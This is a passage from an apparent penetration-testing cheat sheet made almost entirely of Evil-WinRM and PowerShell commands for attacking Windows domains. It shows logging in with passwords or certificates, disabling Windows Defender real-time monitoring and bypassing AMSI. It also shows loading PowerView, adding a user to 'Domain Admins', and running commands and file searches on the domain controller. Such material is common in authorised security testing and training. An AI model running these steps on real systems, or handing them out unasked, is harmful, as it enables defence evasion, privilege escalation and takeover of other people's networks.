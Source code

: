 ```c
$ evil-winrm -i <RHOST> -u <USERNAME> -p <PASSWORD>
```

```c
*Evil-WinRM* PS C:\> menu
```

#### Using Certificate and Private Key

```c
$ evil-winrm -i <RHOST> -c /PATH/TO/CERTIFICATE/<CERTIFICATE>.crt -k /PATH/TO/PRIVATE/KEY/<KEY>.key -p -u -S
```

#### Deactivate Windows Defender

```c
$ Set-MpPreference -DisableRealtimeMonitoring $true
```

#### PowerView.ps1

> https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1

```c
$ evil-winrm -i compatibility -u '<USERNAME>' -p '<PASSWORD>' -s .
```

```c
*Evil-WinRM* PS C:\> menu
*Evil-WinRM* PS C:\> Bypass-4MSI
*Evil-WinRM* PS C:\> Import-Module .\PowerView.ps1
*Evil-WinRM* PS C:\> $pass = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force
*Evil-WinRM* PS C:\> $cred = New-Object System.Management.Automation.PSCredential('<DOMAIN>\<USERNAME>', $pass)
*Evil-WinRM* PS C:\> Add-DomainGroupMember -Identity 'Domain Admins' -Members '<USERNAME>' -Credential $cred
```

#### Check User

```c
*Evil-WinRM* PS C:\> Get-DomainUser <USERNAME> -Credential $cred
```

#### Code Execution

```c
*Evil-WinRM* PS C:\> Invoke-Command -Computer DC -Credential $cred -ScriptBlock { whoami; hostname }
```

#### Find a File

```c
*Evil-WinRM* PS C:\> Invoke-Command -Computer DC -Credential $cred -ScriptBlock { gci -recurse C:\Users <FILE>.txt }
```
